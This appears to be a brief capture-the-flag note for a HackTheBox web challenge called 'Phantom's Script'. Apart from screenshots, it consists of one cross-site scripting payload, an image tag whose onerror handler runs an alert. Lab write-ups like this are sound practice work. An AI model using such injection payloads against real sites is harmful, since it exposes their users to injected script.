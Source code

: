 ```yaml
---
title: Phantom's Script
tags:
  - CTF
  - HackTheBox
  - Web
---
```

![](Pasted%20image%2020241023152533.png)

Payload: `<img src=x onerror="alert('Boo!')">`

![](Pasted%20image%2020241023152359.png)

![](Pasted%20image%2020241023152444.png)